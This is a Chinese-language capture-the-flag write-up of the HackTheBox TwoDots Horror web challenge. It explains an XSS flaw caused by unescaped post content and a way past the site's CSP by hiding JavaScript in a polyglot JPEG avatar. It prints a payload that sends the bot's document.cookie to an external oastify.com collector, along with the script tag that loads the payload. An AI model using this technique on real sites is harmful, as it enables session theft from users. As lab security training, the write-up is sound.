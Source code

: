 ```yaml
---
title: HackTheBox TwoDots horror WriteUP
date: 2023-09-07 16:04:46
tags:
- HackTheBox
- Web
- XSS
- Bypass CSP
---
```


## 题目

> Everything starts from a dot and builds up to two. Uniting them is like a kiss in the dark from a stranger. Made up horrors to help you cope with the real ones, join us to take a bite at the two-sentence horror stories on our very own TwoDots Horror™ blog.

![challenge](image.png)

## 思路

首先我们梳理一下网站的功能，非常清晰：注册用户、用户登录、发表帖子、上传头像、用户登出。

接下来梳理代码。

`flag`的位置在`/bot.js`中：

![flag](image-1.png)

结合函数`purgeData(db)`，bot会主动访问网站的页面，那么我们最终大概率需要通过XSS来获取bot的cookie。

那么，我们来看`/review`的模板，关键代码如下：

``` HTML
<div class="main-area">
    {% for post in feed %}
    <div class="nes-container is-post with-title">
        <p class="title"><span class="title1">{{ post.author }}</span><span class="title1">{{ post.created_at }}</span></p>
        <p>{{ post.content|safe }}</p>
    </div>
    <button class="nes-btn is-primary">Approve</button> <button class="nes-btn is-error">Delete</button><br />
    <br />
    {% endfor %}
</div>
```

> **safe** 过滤器通常在各种模板引擎中用于标记一个字符串为"安全的"，这意味着该字符串不应该被转义。 ——ChatGPT

那么，板上钉钉的，`{{ post.content|safe }}`位置存在XSS漏洞。后续的思路，就是构造payload，写入这个位置，并且利用。

利用的难点在于，网站开启了CSP(内容安全策略，Content Security Policy)。

> CSP（内容安全策略，Content Security Policy）是一个安全特性，用于防止各种常见的跨站脚本攻击 (XSS) 和其他代码注入攻击。CSP 允许网站管理员指定哪些内容源（例如 JavaScript、CSS、图片等）是可信的，从而控制网页可以加载和执行哪些资源。
CSP 是通过 HTTP 响应头 Content-Security-Policy 或等效的 <meta> 元素在 HTML 中实现的。
————ChatGPT

这里的策略限制了网站只加载同源的资源，所以我们无法加载外部的JS脚本：

![CSP](image-2.png)

既然网站只能加载同源的JS脚本，那么我们就需要想办法将JS脚本上传到网站中。作为一个靶场，这个网站理论上不会有多余的功能，那么上传头像的功能我们理应可以利用的上。

多方查阅资料后，我们可以发现解决这个问题的骚操作：把JavaScript代码写入图片中：https://github.com/s-3ntinel/imgjs_polygloter

## 解题

首先我们需要构造一个POC：

``` bash
# https://github.com/s-3ntinel/imgjs_polygloter
python3 img_polygloter.py jpg --height 666 --width 666 --payload 'window.location.href="http://rkfhc87j651n7m6f0va8pws5lwrnfc.oastify.com/grabber.php?c="+document.cookie;' --output poc.jpg
```

然后注册用户，将POC上传到头像：

![upload](image-3.png)

`在/routes/index.js`中我们可以找到上传文件的访问路径：

![avatar](image-4.png)

由此可以构造出XSS的POC(以用户名是admin为例)：

``` HTML
<script charset="ISO-8859-1" src="/api/avatar/admin"></script>123.123.
```

提交即可：

![submit](image-5.png)

![get-flag](image-6.png)

## 后记

这里需要注意的是payload的使用方式，需要设置`charset="ISO-8859-1"`属性，否则的话JavaScript代码无法加载。

## 参考资料

- [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- [Image Polyglot](https://github.com/s-3ntinel/imgjs_polygloter)
- [XSS with a JPG/JPEG to bypass CSP](https://salucci.ch/2023/05/20/xss-with-a-jpg-jpeg-to-bypass-csp/)